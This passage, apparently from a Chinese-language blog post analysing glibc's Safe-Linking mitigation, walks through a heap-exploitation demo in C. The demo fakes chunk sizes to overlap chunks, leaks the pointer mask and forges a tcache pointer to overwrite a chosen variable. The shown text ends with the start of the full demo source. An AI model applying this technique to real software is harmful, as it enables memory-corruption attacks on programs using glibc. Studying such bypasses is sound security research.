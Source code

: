 ![image-20200720154334083](..\image\2020-06-04-Safe-Linking机制分析\8.png)

（4）伪造chunkB的size为0x141，再释放chunkD，就会将chunkD当成0xa0大小的堆块进行释放，并和之前chunkB进行合并，得到0x140+0xa0=0x1e0的unsorted bin，将chunkC包含其中：

```
    memcpy(chunkA, payload2, 0x9a);
    SAFE_FREE(chunkD);
```

![image-20200720154928923](..\image\2020-06-04-Safe-Linking机制分析\10.png)

（5）将0x1e0大小的chunkB分割成junk（就是最开始的chunkB）和chunkC2（即最开始的chunkC），此时chunkC和chunkC2同时指向同一个堆块，释放chunkC2后，进入tcachebin_0xa0，fd填充的是L>>12的值

```c
 for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *junk = malloc(0x98);
    char *chunkC2 = malloc(0x98);

    SAFE_FREE(chunkC2);
```

![image-20200720155712354](..\image\2020-06-04-Safe-Linking机制分析\11.png)

![image-20200720155751794](..\image\2020-06-04-Safe-Linking机制分析\12.png)

（6）泄露得到L>>12的值，伪造要分配的目标堆块地址，将arbitrary_variable变量包含在堆块中。重新申请chunkC3，此时chunkC和chunkC3指向同一个堆块

```c
uint64_t L12 = *(int64_t *)chunkC;
uint64_t masked_ptr = L12 ^ (((uint64_t) &arbitrary_variable) & ~0xf);
uint64_t *chunkC3 = malloc(0x98);
SAFE_FREE(tcache_allocs[0]);
SAFE_FREE(chunkC3);
```

（7）修改chunkC的fd为伪造的目标堆块地址，利用house of spirit ，分配到该堆块，就可以修改arbitrary_variable变量的值。

```c
*(uint64_t *) chunkC = masked_ptr;
char *junk2 = malloc(0x98);
uint64_t *winner = malloc(0x98);
*(winner+1) = 0x112233445566;
```

![image-20200720161540197](..\image\2020-06-04-Safe-Linking机制分析\13.png)

完整demo代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <inttypes.h>

#define SAFE_FREE(p) { free(p); p = NULL; }

char *payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\x01\x00\x00\x00\x00"
                "\x00\x00\xa0";

char *payload2 = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x41\x01";
```